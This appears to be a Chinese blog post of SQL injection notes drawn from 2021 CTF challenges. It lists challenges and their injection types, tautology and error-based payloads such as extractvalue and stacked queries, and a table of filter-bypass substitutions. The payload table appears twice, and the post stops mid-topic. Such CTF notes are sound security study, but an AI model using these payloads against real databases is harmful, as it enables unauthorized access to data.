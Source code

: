 ```yaml
---
title: sql注入分享
comments: true
hide: true
date: 2021-05-26 13:43:04
urlname: sqlinjection
updated:
password:
tags:
categories:
---
```






<!-- more -->

今年本人参加的CTF中记录的sql题目，由于可能有多种解，这里列出本人解法仅供参考

| 比赛-题目名称            | 注入类型   | 详细情况                                               |
| ------------------------ | ---------- | ------------------------------------------------------ |
| MTCTF-sql                | 盲注       | 布尔型，同表查询                                       |
| 国赛CISCN-easy_sql       | 盲注，报错 | sqlmap一把梭，布尔型/延时注入/报错注入，最后无列名注入 |
| 红帽杯-WebsiteManger     | 盲注       | 布尔型(异或)/延时注入                                  |
| 红明谷-happysql          | 盲注       | 布尔型(正则)，无列名注入                               |
| DASCTF三月赛-bestDB      | 联合注入   | load_file()                                            |
| V&NCTF-realezjvav        | 盲注       | 延时注入(笛卡尔积)                                     |
| HGAME-200OK!             | 联合注入   | 基础SQL注入                                            |
| HGAME-Liki-Jail          | 盲注       | 延时注入                                               |
| 春秋杯新春欢乐赛-按F注入 | 联合注入   | Pgsql，延时注入(也许)/信息外带/数据库外联              |

打个广告，各比赛的WP，有需要的师傅可以看看

[春秋杯2021新春欢乐赛一道题——按F注入 对pgsql的研究](https://err0r.top/article/cqb2021/)

[V&N2021公开赛](https://err0r.top/article/VN2021ctf/)

[SQL无列名注入](https://err0r.top/article/mardasctf/)

[红帽杯2021](https://err0r.top/article/redhat2021/)

[2021CISCN-WP](https://err0r.top/article/ciscn2021/)

---

常用函数
1. version()——MySQL版本
2. user()——用户名
3. database()——数据库名
4. @@datadir——数据库路径
5. @@version_compile_os——操作系统版本

---

| 测试字符串        | 变  种              | 预 期 结 果                                                |
| ----------------- | ------------------- | ---------------------------------------------------------- |
| '                 |                     | 触发错误。如果成功，数据库将返回一个错误                   |
| 1' or '1'='1      | 1') or ('1'='1      | 永真条件。如果成功，将返回表中所有的行                     |
| value' or '1'='2  | value') or ('1'='2  | 空条件。如果成功，将返回与原来的值相同的结果               |
| 1' and '1'='2     | 1') and ('1'='2     | 永假条件。如果成功，将不返回表中任何行                     |
| 1' or 'ab'='a'+'b | 1') or ('ab'='a'+'b | SQL Server字符串连接。如果成功，将返回与永真条件相同的信息 |
| 1' or 'ab'='a' 'b | 1') or ('ab'='a' 'b | MySQL字符串连接。如果成功，将返回与永真条件相同的信息      |
| 1' or 'ab'='a'‖'b | 1') or ('ab'='a'‖'b | Oracle字符串连接。如果成功，将返回与永真条件相同的信息     |

---

过滤情况

过滤select

比较劲爆，如果有回显可以报错注入查出简单信息

```sql
1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#
```

`user()`/`database()`/`version()`

- 但这不行，可以利用堆叠注入绕过过滤

```sql
-1';show tables#
```

然后利用预编译方式查数据

经典题目：[2019强网杯-随便注](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)

- 或者`alter`改表名，然后万能密码登陆出结果(如果可回显的话)

- 据说web端过滤也许可以preg_match回溯限制(有的情况)

- 同表的话可以同表查询

  盲注字段名利用`left(column,0)`

  当存在字段时返回True

基本过滤

|      过滤      |      替代方法       |
| :------------: | :-----------------: |
|      and       |          &          |
|       or       |         \|          |
|     [空格]     |    /**/或()或%0a    |
|       #        |         --+         |
|    substr()    | mid()、substring()  |
|    ascii()     | hex()、bin()、ord() |
|    sleep()     |     benchmark()     |
| group_concat() |     concat_ws()     |
|      <、>      |     greatest()      |
|   limit n,m    |  limit m offset n   |

| 测试字符串        | 变  种              | 预 期 结 果                                                |
| ----------------- | ------------------- | ---------------------------------------------------------- |
| '                 |                     | 触发错误。如果成功，数据库将返回一个错误                   |
| 1' or '1'='1      | 1') or ('1'='1      | 永真条件。如果成功，将返回表中所有的行                     |
| value' or '1'='2  | value') or ('1'='2  | 空条件。如果成功，将返回与原来的值相同的结果               |
| 1' and '1'='2     | 1') and ('1'='2     | 永假条件。如果成功，将不返回表中任何行                     |
| 1' or 'ab'='a'+'b | 1') or ('ab'='a'+'b | SQL Server字符串连接。如果成功，将返回与永真条件相同的信息 |
| 1' or 'ab'='a' 'b | 1') or ('ab'='a' 'b | MySQL字符串连接。如果成功，将返回与永真条件相同的信息      |
| 1' or 'ab'='a'‖'b | 1') or ('ab'='a'‖'b | Oracle字符串连接。如果成功，将返回与永真条件相同的信息     |

移位溢注

知道表名不需要知道字段名